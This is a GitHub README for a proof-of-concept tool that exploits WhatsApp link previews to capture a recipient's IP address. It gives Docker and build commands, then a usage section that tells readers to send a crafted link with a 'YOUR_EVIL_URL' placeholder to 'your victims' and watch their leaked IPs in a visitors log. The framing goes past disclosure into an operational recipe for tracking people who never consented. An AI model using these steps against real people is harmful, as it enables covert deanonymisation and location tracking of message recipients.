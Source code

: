 ## WhatsApp user’s IP disclosure with Link Preview

#### Synopsis

As you know modern messengers have many features besides their main function — texting.
They are able to play/record music/videos, send photos/geolocation and so on.

So they are also capable to generate link previews.
The best practice is to generate preview by external proxy server which will fetch content for you. 

However WhatsApp developers decided to rely on internal web engine that comes with OS.

It's not needed to explain that now WhatsApp will leak your IP address on every received link, **and** in addition user will leak his IP in link preview mode without actually opening the link.  

---
**NOTE: You will need VPS with static IP and domain.**

#### Quickstart - Docker

1. `sudo docker pull unstab1e/whatsipp`
2. `sudo docker run --rm -it -p 80:8080 unstab1e/whatsipp`

#### Setup

1. Get the repo by `go get`/`git clone`:
```bash
$ go get https://github.com/moldabekov/whatsipp
```
or
```bash
$ git clone https://github.com/moldabekov/whatsipp
```

2. Build binary:
`$ make build`

3. Run it:
`$ sudo W_LEAK_PORT=80 ./main`

* If you would like to build and run docker container by yourself please execute the following command on step 3 (docker may require root privileges):
`$ make docker`

#### Usage

To test PoC on yourself:
1. Open WhatApp client and type your URL (*e.g. https://domain.com/leak*)
1. Check logs to see your leaked IP 

To leak other people IP addresses: 
1. Send this link to your victims: https://api.whatsapp.com/send?phone=+**PHONE_NUMBER**&text=http%3A%2F%2F**YOUR_EVIL_URL**

* In separate tab watch IP leaks:
`$ tail -f visitors.log`

#### Screenshots

![WhatsAppPreview](https://user-images.githubusercontent.com/669547/39394182-9232f4da-4af0-11e8-9108-48a16b47e163.jpg)

![visitors](https://user-images.githubusercontent.com/669547/39394174-6f01428c-4af0-11e8-9a9f-12503c95df6b.png)

#### Credits
Greets goes to *Rahul Kankrale* for figuring things out.

#### License
(C) MIT License
